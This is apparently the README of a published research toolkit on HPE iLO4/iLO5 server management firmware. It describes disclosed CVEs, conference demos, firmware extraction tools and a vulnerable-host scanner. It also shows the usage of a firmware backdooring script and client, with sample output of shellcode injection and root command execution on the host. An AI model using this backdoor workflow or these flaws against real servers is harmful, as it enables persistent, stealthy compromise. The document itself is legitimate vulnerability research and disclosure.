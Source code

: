 Subverting your server through its BMC: the HPE iLO4 case
=========================================================


Introduction
------------

``iLO`` is the server management solution embedded in almost every ``HPE``
servers for more than 10 years. It provides every feature required by a system
administrator to remotely manage a server without having to reach it
physically. Such features include power management, remote system console,
remote CD/DVD image mounting, as well as many monitoring indicators.

We've performed a deep dive security study of ``HPE iLO4`` (known to be used on
the family of servers ``HPE ProLiant Gen8`` and ``ProLiant Gen9`` servers) and
the results of this study were presented at the **REcon** conference held in
Brussels (February 2 - 4, 2018, see [1]_).

A follow-up of our study was presented at the **SSTIC** conference, held in
France (Rennes, June 13 - 15, 2018, see [8]_). We focused this talk on
firmware backdooring and achieving long-term persistence.

In November 2018, we presented our latest research on ``HPE iLO4`` and
``iLO5`` at **ZeroNights** conference, held in Saint-Petersburg, Russia
(November 20 - 21, 2018, see [11]_). This talk was focused on the attack
surface exposed to the host operating system and on the new secure boot
feature (silicon root of trust) introduced with ``iLO5``.

``iLO4`` runs on a dedicated ``ARM`` processor embedded in the server,
and is totally independent from the main processor. It has a dedicated flash
chip to hold its firmware, a dedicated RAM chip and a dedicated network
interface. On the software side, the operating system is the proprietary RTOS
GreenHills Integrity [2]_.


Results
-------

One critical vulnerability was identified and reported to the ``HPE PSRT`` in
February 2017, known as ``CVE-2017-12542`` (``CVSSv3`` 9.8 [3]_) :

* Authentication bypass and remote code execution
* Fixed in ``iLO4`` versions ``2.53`` (released in May 2017, buggy) and ``2.54`` [4]_


A second critical vulnerability was identified in  ``iLO4`` and  ``iLO5`` . It
was reported to the ``HPE PSRT`` in April 2018 and is known as
``CVE-2018-7078`` (``CVSSv3`` 7.2 [9]_, ``HPE`` Security Bulletin
``HPESBHF03844`` [10]_) :

* Remote or local code execution
* Fixed in ``iLO4`` version ``2.60`` (released in May 2018)
* Fixed in ``iLO5`` version ``1.30`` (released in June 2018)


Finally a critical vulnerability was identified in the implementation of the
secure boot feature of ``iLO5``. It was reported to the ``HPE PSRT`` in
September 2018 and is known as ``CVE-2018-7113`` (``CVSSv3`` 7.2 [9]_, ``HPE``
Security Bulletin ``HPESBHF03894`` [12]_):

* Local Bypass of Security Restrictions
* Fixed in ``iLO5`` version ``1.37`` (released in October 2018)


Slides and demos
----------------

REcon Brussels 2018
*******************

The slides from our **REcon** talk are available here_ . They cover the
following points:

* Firmware unpacking and memory space understanding
* GreenHills OS Integrity internals:

    * kernel object model
    * virtual memory
    * process isolation

* Review of exposed attack surface: ``www``, ``ssh``, *etc.*
* Vulnerability discovery and exploitation
* Demonstration of a new exploitation technique that allows to
  compromise the host server operating system through DMA.


To illustrate them, we also release the three demos as videos. The first one
demonstrates the use of the vulnerability we discovered to bypass the
authentication from the RedFish API:


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo1_connection_bypass.gif
    :width: 100%
    :align: center

In the second one we show how the vulnerability can also be turned into an
arbitrary remote code execution (``RCE``) in the process of the web server;
allowing read access to the ``iLO`` file-system for example.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo2_dump_users.gif
    :width: 100%
    :align: center

Finally, in  the third videos, we leverage this ``RCE`` to exploit an ``iLO4``
feature which allows us to access (``RW``) to the host memory and inject a
payload in the host Linux kernel.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo3_host_pwn.gif
    :width: 100%
    :align: center


SSTIC 2018
**********

The slides from our **SSTIC** talk are available at this location_ (more
details can be found in the paper_). After a brief recap of our **REcon**
talk, we propose the following new materials:

* Firmware security and boot chain analysis
* Backdoor architecture

To illustrate these works, we release a new demo as video. It demonstrates
the use of the vulnerability we discovered in the web server to flash a new
backdoored firmware. Then we demonstrate the use of the DMA communication
channel to execute arbitrary commands on the host system.

.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo4_backdoor.gif
    :width: 100%
    :align: center


ZeroNights 2018
***************

The material we presented as **ZeroNights** is available from there_. It
contains two major contributions.

First, an analysis of the communication channel between the host system and
the ``iLO`` (``4`` or ``5``), known as ``CHIF`` channel interface. It opens a
new attack surface,  exposed to the host (even though ``iLO`` is set as
disabled). We demonstrated that the exploitation of ``CVE-2018-7078`` could
allow us to flash a backdoored firmware from the host through this interface.

Then, an in-depth review of the new secure boot feature introduced with
``iLO5`` and ``HPE Gen10`` server line. It covers the complete bootchain, from
the ``iLO ASIC`` (silicon root of trust) down to the ``Integrity`` kernel and
userland images. We discovered a logic error (``CVE-2018-7113``) in the kernel
code responsible for the integrity verification of the userland image, which
can be exploited to break the chain-of-trust.

To illustrate this defeat of the secure boot feature, we propose the new video
below. It demonstrates the exploitation of the logic error to update the
``iLO5`` firmware with a compromised firmware embedding a backdoored userland
image in which the banner of the ``SSH`` server has been altered.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo5_secure_boot.gif
    :width: 100%
    :align: center


Tooling
-------

To support our research we've developed scripts and tools to help us
automatize some tasks, especially firmware unpacking and mapping.


Firmware
********

``ilo4_extract.py`` script takes an ``HP Signed file`` as input (obtained from
the update package). It is invoked with:

::

    >python ilo4_extract.py ilo4_244.bin extract


Extract from the output log:

::

    [+] iLO Header 0: iLO4 v 2.44.7 19-Jul-2016
      > magic              : iLO4
      > build_version      :  v 2.44.7 19-Jul-2016
      > type               : 0x08
      > compression_type   : 0x1000
      > field_24           : 0xaf8
      > field_28           : 0x105f57
      > decompressed_size  : 0x16802e0
      > raw_size           : 0xd0ead3
      > load_address       : 0xffffffff
      > field_38           : 0x0
      > field_3C           : 0xffffffff
      > signature


From the extracted file, ``ilo0.bin`` is the ``Integrity`` applicative image
(userland). It contains all the tasks that will run on the ``iLO`` system. To
parse each of these tasks and generate the ``IDA Pro`` loading script, one can
use the script ``dissection.rb``.

It relies upon the ``Metasm`` framework [5]_ and also requires the ``Bindata``
library [6]_.

::

    >ruby dissection.rb ilo0.bin


Back to the kernel image, ``ilo4_extract.py`` told us that:

::

    [+] iLO Header 1: iLO4 v 0.8.36 16-Nov-2015
      > magic              : iLO4
      > build_version      :  v 0.8.36 16-Nov-2015
      > type               : 0x02
      > compression_type   : 0x1000
      > field_24           : 0x9fd
      > field_28           : 0x100344
      > decompressed_size  : 0xc0438
      > raw_size           : 0x75dad
      > load_address       : 0x20001000
      > field_38           : 0x0
      > field_3C           : 0xffffffff

Using ``IDA Pro`` to load the extracted file ``ilo1.bin`` at ``0x20001000`` as
``ARM`` code, one can also study the ``Integrity`` kernel.


* ``secinfo4.py`` parses the section information embedded into the kernel image
  and creates the appropriate memory segment in the disassembler
* ``parse_mr.py`` dumps the registered ``Memory Region`` objects


``iLO5`` format differs slightly, however the same ``dissection.rb`` script
can be used to extract the ``Integrity`` applicative image.


Firmware backdooring
********************

The ``insert_backdoor.sh`` script can be run on a legitimate firmware file to
add a backdoor in the webserver module. The backdoor can then be used using
the ``backdoor_client.py`` script.

::

    >./insert_backdoor.sh ilo4_250.bin
    [...]
    [+] Firmware ready to be flashed

    >python backdoor_client.py 192.168.42.78
    [+] iLO Backdoor found
    [-] Linux Backdoor not detected
    [...]
    >>> ib.install_linux_backdoor()
    [*] Dumping kernel...
    [+] Dumped 1000000 bytes!
    [+] Found syscall table @0xffffffff81a001c0
    [+] Found sys_read @0xffffffff8121e510
    [+] Found call_usermodehelper @0xffffffff81098520
    [+] Found serial8250_do_pm @0xffffffff81528760
    [+] Found kthread_create_on_node @0xffffffff810a2000
    [+] Found wake_up_process @0xffffffff810ad860
    [+] Found __kmalloc @0xffffffff811f8c50
    [+] Found slow_virt_to_phys @0xffffffff8106c6a0
    [+] Found msleep @0xffffffff810f0050
    [+] Found strcat @0xffffffff8140c9c0
    [+] Found kernel_read_file_from_path @0xffffffff812236e0
    [+] Found vfree @0xffffffff811d7f90
    [+] Shellcode written
    [+] iLO Backdoor found
    [+] Linux Backdoor found
    >>> ib.cmd("/usr/bin/id")
    [+] Found shared memory page! 0xeab00000 / 0xffff8800eab00000
    uid=0(root) gid=0(root) groups=0(root)


Forensics
*********

The ``exploit_check_flash.py`` script can be run against an instance of ``HP
iLO4`` vulnerable to ``CVE-2017-12542``. Its purpose it to dump the content of
the flash and then compare its digest with a known "good" value.

::

    >python exploit_check_flash.py 192.168.42.78 250


Network
*******

Finally, to help people scan for existing vulnerable ``iLO`` systems exposed in
their own infrastructures, we release a simple ``Go`` scanner. It attempts to
fetch a special ``iLO`` page:  ``/xmldata?item=ALL``; if it exists, then it
extracts the firmware version and HP server type.


First edit the "``targets``" variable in the code and specify the internal
``IP`` ranges you want to scan.

::

   var (
        targets = []string{
                "10.0.0.0/8",
                "192.168.66.0/23",
                "172.16.133.0/24"}
   )


Then compile the code for your OS/architecture.

::

    > env GOOS=target-OS GOARCH=target-architecture go build iloscan.go


For example:

::

    > env GOOS=openbsd GOARCH=amd64 go build iloscan.go
    > ./iloscan

Then look the result in ``/tmp/iloscan.log`` (can be changed in the source):

::

    > less /tmp/iloscan.log
    192.168.66.69{{ RIMP} [{{ HSI} ProLiant DL380 G7}] [{{ MP} 1.80 ILOCZ2069K2S4       ILO583970CZ2069K2S4}]}

Alternatively, you can invoke the binary with a subnet on the command line (individual IP addresses should be specified as a /32 netmask):

::

    > ./iloscan 1.2.3.4/32
    Generated 1.2.3.4
    Fetching 1.2.3.4
    1.2.3.4 status: 200 OK
    {{ RIMP} [{{ HSI} ProLiant DL380 Gen9}] [{{ MP} 2.40 ILOCZJ641057H ILO826683CZJ641057H}]}


Authors
-------

* Fabien PERIGAUD - ``fabien [dot] perigaud [at] synacktiv [dot] com`` - ``@0xf4b``
* Alexandre GAZET - ``alexandre [dot] gazet [at] airbus [dot] com``
* Joffrey CZARNY  - ``snorky [at] insomnihack [dot] net`` - ``@\_Sn0rkY``



License
-------

The scripts and scanner are released under the [GPLv2]_.



References
----------

.. [1] https://recon.cx/2018/brussels/talks/subvert_server_bmc.html
.. [2] https://www.ghs.com/products/rtos/integrity.html
.. [3] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12542
.. [4] http://h20565.www2.hpe.com/hpsc/doc/public/display?docId=hpesbhf03769en_us
.. [5] https://github.com/jjyg/metasm
.. [6] https://github.com/dmendel/bindata
.. [8] https://www.sstic.org/2018/presentation/backdooring_your_server_through_its_bmc_the_hpe_ilo4_case/
.. [9] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7078
.. [10] https://support.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03844en_us
.. [11] https://2018.zeronights.ru/en/reports/turning-your-bmc-into-a-revolving-door/
.. [12] https://support.hpe.com/hpsc/doc/public/display?docId=hpesbhf03894en_us
.. [GPLv2] https://github.com/airbus-seclab/ilo4_toolbox/blob/master/COPYING
.. _here: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/RECONBRX2018-Slides-Subverting_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _location: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/SSTIC2018-Slides-EN-Backdooring_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _paper: https://airbus-seclab.github.io/ilo/SSTIC2018-Article-subverting_your_server_through_its_bmc_the_hpe_ilo4_case-gazet_perigaud_czarny.pdf
.. _there: https://airbus-seclab.github.io/ilo/ZERONIGHTS2018-Slides-EN-Turning_your_BMC_into_a_revolving_door-perigaud-gazet-czarny.pdf
